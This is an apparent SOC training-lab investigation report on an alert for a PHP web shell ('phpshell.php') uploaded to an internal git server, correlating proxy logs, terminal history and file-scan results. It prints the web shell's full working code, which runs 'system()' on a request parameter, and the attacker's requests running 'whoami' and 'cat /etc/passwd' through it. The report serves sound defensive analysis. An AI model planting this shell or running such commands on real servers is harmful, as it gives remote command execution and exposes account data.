








# SOC128 – Malicious File Upload Attempt

## 1. Alert Overview

| Field | Details |
|---|---|
| Event ID | 62 |
| Alert Rule | SOC128 – Malicious File Upload Attempt |
| Event Time | `2021-02-22 16:31:01 (UTC+03:00)` |
| Alert Type | Malware |
| MITRE ATT&CK (alert metadata) | `T1204` |
| File Name | `phpshell.php` |
| File Size | `113 bytes` |
| MD5 | `756215a64e7d43153298f1a5a5fde295` |
| SHA-256 | `f1c5bed9560a1afe9d5575e923e480e7e8030e10bc3d7c0d842b1a64f49f8794` |
| Internal Host | `gitServer` |
| Internal IP | `172.16.20.4` |
| External Source IP | `49.234.71.65` |
| Device Action | **Allowed** |
| Final Verdict | **True Positive** |

## 2. Investigation Findings

### 2.1. Proxy / Log Management Analysis

Log Management recorded HTTP traffic from the external IP `49.234.71.65` to the internal web server `172.16.20.4` (`gitServer`) over port `80`.

The available records contain the following requests:

| HTTP Request | Purpose | Device Action |
|---|---|---|
| `GET /srcCode/upload.php` | Request to the file-upload endpoint | Allowed |
| `GET /srcCode/phpshell.php?cmd=whoami` | Request to the PHP web shell with the `whoami` command | Allowed |
| `GET /srcCode/phpshell.php?cmd=cat /etc/passwd` | Request to the PHP web shell with the `cat /etc/passwd` command | Allowed |



*Log Management overview of the HTTP traffic involving the external source and internal server.*

#### Raw Log Analysis

The raw logs provide the individual HTTP requests.

**First request — Upload endpoint**



The request targets `/srcCode/upload.php`, the application's upload endpoint.

**Second request — `whoami`**



The request targets `/srcCode/phpshell.php` and supplies `whoami` through the `cmd` parameter. This command is commonly used on Linux to identify the account under which a process is running.

**Third request — `/etc/passwd`**



The request supplies `cat /etc/passwd` through the same parameter. On Linux, this command reads `/etc/passwd`, which contains local account information.

All three requests were recorded with the device action **Allowed**. This indicates that the requests were permitted by the device, while the endpoint and file-analysis evidence are used to assess the resulting activity.

The request to `upload.php` alone does not prove that the file was successfully uploaded. However, the subsequent requests to `phpshell.php`, together with the endpoint command history and file analysis, provide evidence of web-shell activity.

### 2.2. Endpoint Security – Terminal History

Endpoint terminal history recorded the following commands on the internal server:

| Time | Command |
|---|---|
| `2021-02-22 16:32` | `whoami` |
| `2021-02-22 16:33` | `cat /etc/passwd` |



*Endpoint terminal history showing the commands associated with the investigation.*

The recorded commands match the values supplied through the `cmd` parameter in the HTTP requests:

- `whoami`
- `cat /etc/passwd`

This correlation provides strong evidence that the commands supplied through the PHP web shell were executed on the internal server.

The investigation therefore goes beyond identifying suspicious requests: the endpoint history corroborates command execution associated with the web-shell requests.

### 2.3. File Analysis – Filescan.io

Filescan classified the sample as **Confirmed Threat** and reported two matching YARA rules:

| YARA Rule | Strength | Interpretation |
|---|---:|---|
| `webshell_simple_backdoor` | `0.75` | Matches a simple web-shell/backdoor pattern. |
| `WEBSHELL_PHP_Generic` | `0.75` | Matches a generic PHP web-shell pattern involving input and a payload. |



*Filescan report showing the threat verdict and matching YARA rules.*

The Filescan [Extracted Strings report](https://www.filescan.io/uploads/undefined/reports/45ae7952-7dcd-4294-a13c-a4ca3f34b710/strings) exposed the following PHP code:

```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```



*Extracted PHP code from the sample.*

#### PHP Code Analysis

**1. Checking for the command parameter**

```php
if(isset($_REQUEST['cmd'])){
```

The code checks whether the incoming request contains a parameter named `cmd`. Depending on the PHP configuration, `$_REQUEST` may include values supplied through GET, POST, or Cookie data.

**2. Reading the supplied command**

```php
$cmd = ($_REQUEST['cmd']);
```

The value supplied by the requester is assigned to the `$cmd` variable.

**3. Executing the command**

```php
system($cmd);
```

This is the key line. PHP's `system()` function passes the supplied command to the operating system for execution under the privileges of the account running the web server.

Because the command comes from a request parameter, a remote requester can attempt to control which command the server executes.

**4. Formatting the output**

```php
echo "<pre>";
echo "</pre>";
```

The `<pre>` tags preserve whitespace and make command output easier to read when rendered in a web page.

**5. Stopping script execution**

```php
die;
```

The script terminates after processing this block.

#### Why This Is a Web Shell

The code exposes operating-system command execution through an HTTP request. No authentication or authorization check is visible in the provided snippet.

This behavior is characteristic of a **PHP Web Shell**: a script hosted on a web server that allows a requester to submit commands and potentially receive their output through HTTP.

The YARA detections support this classification, while the extracted code directly demonstrates the command-execution functionality. The reported strength of `0.75` is a rule-match strength and should not be interpreted as a 75% statistical probability.

### 2.4. VirusTotal File Reputation



*VirusTotal file-reputation results for the sample.*

The VirusTotal screenshot is included as an additional file-reputation reference. Its specific detection results should be reported according to the information displayed in the screenshot.

### 2.5. Evidence Correlation Summary

The investigation established the following:

1. Log Management recorded a request to `/srcCode/upload.php`.
2. Subsequent HTTP requests targeted `/srcCode/phpshell.php` and supplied `whoami` and `cat /etc/passwd` through the `cmd` parameter.
3. Endpoint terminal history recorded those same commands.
4. Filescan classified the sample as a confirmed threat and identified two web-shell-related YARA matches.
5. The extracted PHP code contains `system($cmd)`, which executes a command supplied through the request.

Together, these findings support that the PHP web shell was accessed and used to execute commands on `gitServer`.

## 3. Playbook Investigation

### 3.1. Analyze Malware

**Result: Malicious**

Filescan returned a **Confirmed Threat** verdict, identified two web-shell-related YARA matches, and exposed PHP code that executes a request-supplied command through `system()`.

### 3.2. Check If Malware Was Quarantined / Cleaned

**Result: Not Quarantined**

The playbook result indicates that the malware was not quarantined or cleaned. The alert also reports the device action as **Allowed**.

### 3.3. Check If Someone Requested the C2

**Result: Accessed**

The Proxy logs show requests to the PHP web shell, and endpoint terminal history records the commands supplied in those requests.

The endpoint evidence corroborates command execution, so the investigation supports an **Accessed** result.

## 4. Final Assessment

**Verdict: True Positive**

The alert correctly identified a malicious PHP web shell named `phpshell.php`.

Filescan classified the sample as a confirmed threat, the extracted PHP code demonstrated command execution through `system($cmd)`, and the Proxy requests correlated with endpoint terminal-history entries for `whoami` and `cat /etc/passwd`.

The combined evidence supports that the web shell was accessed and used to execute commands on the internal `gitServer`.

**Final Playbook Results:**
- Analyze Malware: **Malicious**
- Check If Malware Was Quarantined / Cleaned: **Not Quarantined**
- Check If Someone Requested the C2: **Accessed**
- Final Verdict: **True Positive**
